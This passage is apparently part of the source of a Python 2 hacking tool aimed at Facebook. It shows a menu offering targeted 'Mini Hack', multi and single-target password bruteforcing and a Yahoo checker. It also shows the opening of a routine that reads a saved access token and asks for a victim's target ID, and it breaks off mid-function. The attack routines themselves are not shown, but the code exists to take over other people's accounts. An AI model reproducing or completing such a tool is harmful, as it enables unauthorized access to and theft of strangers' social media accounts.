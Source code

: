 		print"\033[1;91m[✖] No connection"
		exit()

##### MENU HACK #####
def menu_hack():
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m Mini Hack Facebook(\033[1;92mTarget\033[1;97m)"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Multi Bruteforce Facebook"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Super Multi Bruteforce Facebook"
	print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m BruteForce(\033[1;92mTarget\033[1;97m)"
	print "\033[1;97m║--\033[1;91m> \033[1;92m5.\033[1;97m Yahoo Checker"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	choose_hack()
#----choices
def choose_hack():
	hack = raw_input("\033[1;97m╚═\033[1;91m>>> \033[1;97m")
	if hack=="":
		print "\033[1;91m[!] Wrong input"
		choose_hack()
	elif hack =="1":
		mini()
	elif hack =="2":
		crack()
		success()
	elif hack =="3":
		super()
	elif hack =="4":
		brute()
	elif hack =="5":
		menu_yahoo()
	elif hack =="0":
		menu()
	else:
		print "\033[1;91m[!] Wrong input"
		choose_hack()

##### MINI HF #####
def mini():
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m[\033[1;91mINFO\033[1;97m] \033[1;91mThe target account must be friends\n       with your account first!"
	print 42*"\033[1;97m═"
	try:
		id = raw_input("\033[1;91m[+] \033[1;92mTarget ID \033[1;91m:\033[1;97m ")